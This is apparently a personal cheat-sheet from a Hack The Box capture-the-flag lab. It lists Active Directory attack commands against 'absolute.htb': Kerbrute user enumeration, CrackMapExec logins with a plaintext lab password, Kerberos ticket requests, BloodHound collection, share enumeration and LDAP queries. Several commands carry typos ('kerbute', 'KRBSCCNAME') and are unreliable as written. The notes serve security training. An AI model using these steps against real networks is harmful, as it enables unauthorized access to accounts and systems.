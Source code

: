 
# Kerbrute
- Kerbrute
   - set sys date to domain date
	```
	sudo ntpdate dc.absolute.htb 
	```
   - check user valid with users.txt
	```
	./kerbute userenum --dc dc.absolute.htb -d absolute.htb -o users.txt
	```
  - check user validate (-k to use Kerberos)
	```
	cme smb 10.10.11.181 -k -u d.klay -p Darkmoonsky248girl
    ```
  - generate access token
   ```
	getTGT.py absolute.htb/d.klay
	 ```
   - blood hound scrape
   ```
   KRB5CCNAME=d.klay.ccache ./bloodhound.py -k -dc dc.absolute.htb -ns 10.10.11.181 -c all -d absolute.htb -u d.klay
     ```
   - Scan shares
   ```
   cme smb 10.10.11.181 -u d.klay -p Darkmoonsky248girl -k --shares
     ```
   - ldapsearch
   ```
   ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -s base

   ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -b "cn=users,dc=absolute,dc=htb" "user" "description"
     ```
   - Kerbrute
   ```
   KRBSCCNAME=/home/accesstoken.ccache ./smbclient.py -k absolute.htb/user_goview@dc.absolute.htb -target -ip 10.10.11.181
     ```
   